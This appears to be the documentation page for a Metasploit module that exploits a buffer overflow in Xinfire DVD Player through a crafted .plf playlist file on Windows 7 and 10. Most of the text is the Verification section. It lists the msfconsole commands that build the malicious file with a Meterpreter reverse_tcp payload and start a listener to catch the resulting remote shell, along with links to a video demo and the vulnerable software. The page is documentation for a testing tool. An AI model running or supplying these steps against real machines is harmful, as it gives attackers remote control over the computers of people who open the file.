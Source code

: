 Vulnerable Application
open plf file on (playlist), and the vulnerability is triggered.

Targets
Win 7 and Win 10

Verification

use exploit/windows/fileformat/xinfire_dvd_player
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

Video demo Buffer Overflow Xinfire DVD Player
https://youtu.be/IqTO7WNJO24

downloads software
https://download.cnet.com/Xinfire-TV-Player-Pro/3000-13632_4-75986988.html
